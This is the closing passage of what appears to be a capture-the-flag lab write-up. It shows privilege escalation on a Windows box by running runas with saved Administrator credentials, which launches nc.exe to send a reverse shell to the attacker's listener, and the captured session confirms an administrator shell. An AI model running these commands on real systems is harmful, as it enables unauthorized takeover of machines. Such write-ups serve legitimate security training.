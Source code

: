 ## PWNED

We have successfully access a file in the `Administrator` directory with the stored credentials. We can even go further and use the `nc.exe` executable transferred previously to gain a rev shell as administrator.

```PowerShell
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Users\security\Desktop\nc.exe 10.10.14.19 6666 -e cmd"
```

```bash
$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.98] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

